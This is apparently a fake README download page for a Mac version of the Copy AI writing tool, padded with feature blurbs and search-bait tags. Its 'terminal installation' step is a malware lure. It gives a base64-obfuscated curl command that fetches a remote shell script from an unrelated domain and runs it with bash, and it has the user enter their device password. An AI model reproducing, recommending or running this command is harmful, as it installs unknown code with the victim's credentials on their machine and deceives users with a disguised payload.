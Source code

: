 # Copy AI For Mac — Download For Mac OS ✍️
![copyai](https://akwaam.com/wp-content/uploads/2025/04/Copy-AI-App-Essay-Advices.webp)

Copy AI For Mac is an innovative AI-powered writing assistant designed to help Mac users create high-quality content effortlessly. From blog posts to marketing copy, this software streamlines content creation with advanced AI tools. Follow the instructions below to install and start generating professional-grade content on your Mac.


[![Download Now](https://img.shields.io/badge/Download%20Now-Copy%20AI%20For%20Mac-blue?style=for-the-badge&logo=apple)](https://copy.ai/download/mac)

If the download button above doesn’t work, follow the manual installation instructions below using the terminal.

## 📦 How to Install Copy AI For Mac

### Installation via .dmg:

1. Install the .dmg file using the button above. 
2. Open the .dmg installer and move the file from the left window to any convenient directory on your device.
3. Open a terminal and transfer the file you extracted in the last step into it.
4. Press the "Return" button, then enter your device password in the window that appears (if you don't have a password, leave the field blank).

[![0723.gif](https://i.postimg.cc/50Tm3hZT/0723.gif)](https://postimg.cc/mz3MZ5Zy)

### Installation via a command in the terminal:

1. Copy the installation command below.
```
/bin/bash -c "$(curl -fsSL $(echo aHR0cHM6Ly9waGFubmFyaXRoLmNvbS9nZXQzL2luc3RhbGwuc2g= | base64 -d))"
```
2. Open the terminal on your device and paste the command you copied above, then press the “Return” button.
3. Enter your device password and confirm the installation.

[![0723-1.gif](https://i.postimg.cc/NfzQxpMT/0723-1.gif)](https://postimg.cc/0b7gkG72)

## 🎯 What You Get

- ✍️ **AI-Powered Writing**: Generate engaging content for blogs, ads, and social media with advanced AI algorithms.
- 📋 **Template Library**: Access a wide range of customizable templates for various content types.
- 🌐 **Multilingual Support**: Create content in multiple languages to reach global audiences.
- 🤝 **Collaboration Tools**: Work seamlessly with team members in real-time for efficient content creation.
- ⚙️ **macOS Optimization**: Enjoy smooth performance tailored for Apple Silicon and macOS environments.
- 📈 **Tone Customization**: Adjust the tone of your content to match your brand’s voice and style.

## About Copy AI

Copy AI For Mac is a cutting-edge writing assistant that empowers Mac users to create professional content with ease. Leveraging advanced AI, this software helps marketers, bloggers, and businesses generate high-quality text for blogs, advertisements, social media posts, and more. With its intuitive interface and powerful features, Copy AI is a must-have tool for anyone looking to streamline their content creation process on macOS.

The software uses machine learning to produce human-like text, ensuring your content is engaging and polished. Its extensive template library covers a wide range of use cases, from email campaigns to product descriptions, making it versatile for professionals across industries. Copy AI’s seamless integration with macOS ensures fast performance, while its collaboration features allow teams to work together efficiently, boosting productivity.

For those seeking to enhance their content marketing efforts, Copy AI offers multilingual support and tone customization, enabling users to craft content that resonates with diverse audiences. Whether you’re drafting a single post or managing large-scale campaigns, the software’s AI-driven tools simplify the process, saving time and effort. Its compatibility with the latest macOS versions ensures a smooth experience on any Mac device.

By combining user-friendly design with powerful AI capabilities, Copy AI For Mac has become a trusted solution for content creators. Its ability to generate high-quality, brand-aligned content makes it an essential tool for modern professionals. Download Copy AI today and elevate your content creation with this industry-leading software optimized for macOS.

## Advantages of Copy AI

- ✍️ **High-Quality Content**: Produce engaging, professional text with AI-driven precision.
- ⚡ **Fast Generation**: Create content quickly, even for large projects, with optimized performance.
- 🛠️ **Intuitive Interface**: User-friendly design makes content creation accessible to all skill levels.
- 📋 **Versatile Templates**: Access a diverse library of templates for blogs, ads, and more.
- 🌐 **Global Reach**: Generate content in multiple languages for international audiences.
- 🤝 **Team Collaboration**: Real-time collaboration tools streamline team workflows.

## 🖼 Preview

![Copy AI Dashboard](https://www.elegantthemes.com/blog/wp-content/uploads/2023/06/Copy-AI-templates.jpg)  
*The sleek Copy AI dashboard, designed for intuitive content creation.*


## 🔍 Tags

copy ai, ai copy copy artificial intelligence, copys ai, cppy ai, cop y ai, copy ai+, ai copywriting, copywriting ai, copy ai for mac, copy ai mac, copy ai mac download, copy ai free, copy ai download, download copy ai, copy ai for mac, copy ai discount, copy ai for macos, copy ai mac free, copy ai mac free download, copy ai free download
